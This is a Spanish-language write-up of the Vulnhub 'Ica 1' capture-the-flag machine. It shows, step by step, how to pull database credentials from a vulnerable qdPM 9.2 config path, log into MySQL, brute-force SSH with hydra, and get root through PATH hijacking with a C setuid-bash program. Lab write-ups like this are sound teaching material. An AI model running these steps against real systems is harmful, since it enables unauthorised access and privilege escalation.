 ```yaml
---
layout: single
title: Ica 1 - Vulnhub
excerpt: "Para vulnerar esta máquina a la hora de ver el sitio web del :80, vemos qué tiene un qdPM con una versión vulnerable qué suele exponer las credenciales de la base de datos en una ruta específica, obteniendo así las credenciales para la DB MySQL, pudiendo conectarnos a ésta de forma remota, para posterior ver el contenido de sus base de datos internas, logrando así ver usuarios & contraseñas válidas del sistema, una vez conetado a la máquina con SSH escalamos privilegios mediante un Path Hijacking a un ejecutable qué llama a cat con su ruta relativa."
date: 10/11/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp

tags:
  - Abusing qdPM 9.2 - Password Exposure (Unauthenticated)
  - Remote connection to the MYSQL
  - SSH brute force
  - Abusing SUID privilege
  - PATH Hijacking
---
```


Para vulnerar esta máquina a la hora de ver el sitio web del :80, vemos qué tiene un qdPM con una versión vulnerable qué suele exponer las credenciales de la base de datos en una ruta específica, obteniendo así las credenciales para la DB MySQL, pudiendo conectarnos a ésta de forma remota, para posterior ver el contenido de sus base de datos internas, logrando así ver usuarios & contraseñas válidas del sistema, una vez conetado a la máquina con SSH escalamos privilegios mediante un Path Hijacking a un ejecutable qué llama a cat con su ruta relativa.


# PortScan
______
```
# Nmap 7.93 scan initiated Fri Nov 10 16:42:38 2023 as: nmap -sCV -p22,80,3306,33060 -oN targeted 192.168.204.159
Nmap scan report for 192.168.204.159
Host is up (0.00074s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.48 (Debian)
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, LongColumnFlag, SupportsCompression, Support41Auth, Speaks41ProtocolNew, FoundRows, SupportsTransactions, IgnoreSi
gpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongPassword, SwitchToSSLAfterHandshake, ODBCClient, SupportsLoadDataLocal, ConnectWithDatabase, Dont
AllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 3bnP)\x17D3\x01\x03X6S<+blTX[
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi
```


# Web Site
___
![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174213.png)

Tendríamos un **qdPM** con versión **9.2**, sí buscamos en **exploit-db,** encontraríamos este ["exploit"](https://www.exploit-db.com/exploits/50176) que nos indica qué en esta versión sé suele exponer la contraseña de la **DB** en esta dirección:
```
http://<website>/core/config/databases.yml
```

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174747.png)

Definitivamente, el recurso existe, nos lo descargamos en local para posterior ver el contenido qué está dentro.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110174853.png)

# Conexión a la DB MySQL

Dentro tiene lo qué parece ser el nombre de usuario para acceder a la DB **MySQL** y la **contraseña**, comprobamos esto.
```bash
mysql -u qdpmadmin -h 192.168.204.159 -p
```

Una vez pongamos la contraseña, veremos qué definitivamente hemos logrado entrar a la **DB MySQL.**

Ahora nos interesaría ver las bases de datos existentes, las tablas & el contenido dentro de las columnas qué nos interesa, llegando así a encontrar posibles credenciales del sistema.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180000.png)

Encontramos lo qué parecen ser claves en **base64** de los mismos usuarios que logramos ver en la DB.

Por lo qué se me ocurre desconvertir las claves en **base64** & intentar conectarme a todos los usuarios con esas claves, pero podríamos automatizarlo mediante un ataque de fuerza bruta con Hydra, metiendo las credenciales en archivos de texto, es decir, meter los usuarios en un archivo y las contraseñas desconvertidas en otras, tal que así:

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180302.png)

Para ahora con **hydra** usando estos dos diccionario intentar conectarnos mediante fuerza bruta.

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.204.159
```

Reportándonos así la clave válida para uno de los usuarios.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180404.png)

Así qué ahora podríamos conectarnos a través de **SSH** a éste usuario.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180443.png)


# Escalada de Privilegios
_____


Buscando en la máquina archivos con permisos **SUID**.
```bash
find / -perm -4000 2>/dev/null
```

Encontraríamos un ejecutable con permisos **SUID** Root.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180654.png)

qué indagando sobre este ejecutable con strings.
```bash
strings /opt/get_access
```

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110180921.png)

Vemos qué hace un **cat** a la ruta "**/root/system.info**", el problema es qué está usando la ruta relativa del **cat** y no la absoluta, por lo qué podríamos llevar a cabo un **Path Hijacking**.

Para ello debemos ir a un directorio donde tengamos permisos de escritura, por ejemplo a "**/tmp/**", montarnos el siguiente script en C.

Creamos el .C.
```python
nano cat.c
```

Que dentro tendrá el siguiente código
```python
#include <unistd.h>

int main(void) {
    setuid(0);
    setgid(0);
    char *binaryPath = "/bin/bash";
    char *args[] = {binaryPath, "-p", NULL};
    
    execv(binaryPath, args);
    return 0;
}
```

y lo compilamos
```bash
gcc cat.c -o cat
```

Ahora tocaría modificar la variable de entorno del sistema para qué que el ejecutable no llegue a la ruta real del **cat**, y llegue a la ruta donde lo tengamos nosotros, es decir "**/tmp/**".
```bash
export PATH=/tmp/:$PATH
```

De forma que cuando volvamos a ejecutar el "**get_access**" leerá nuestro **cat**, otorgándonos así una bash con privilegios como **Root**.

![](/assets/images/vulnhub-writeup-ica/Pasted image 20231110182015.png)
